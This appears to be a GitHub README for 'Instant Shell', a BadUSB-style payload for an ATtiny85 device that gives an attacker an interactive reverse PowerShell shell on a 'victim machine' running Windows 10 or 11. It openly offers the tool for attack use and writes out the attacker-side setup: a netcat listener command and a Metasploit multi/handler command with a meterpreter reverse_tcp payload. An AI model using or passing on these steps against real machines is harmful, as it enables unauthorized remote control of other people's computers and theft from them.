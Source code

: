 # Instant Shell

### Description:

#### 1: Instant_Shell.ino:<br>

**Payload by:** [hum4nG0D](https://github.com/hum4nG0D/)

Get instant interactive reverse powershell shell in less than a minute and send commands remotely to victim machine. Interactive reverse Powershell shell script from [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)

**Instructions:**
Start an nc listener or metasploit listener. Be sure to change IP and Port. Adjust script delay which suits best to your computer.

```
nc -lvnp 4444
```

```
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP_ADDRESS>; set lport 4444; set ExitOnSession false; exploit -j"
```

**Tested on:**<br>
**OS**: Windows 10|11<br>
**User**: Admin/Normal User<br>
**Hardware**: ATtiny85

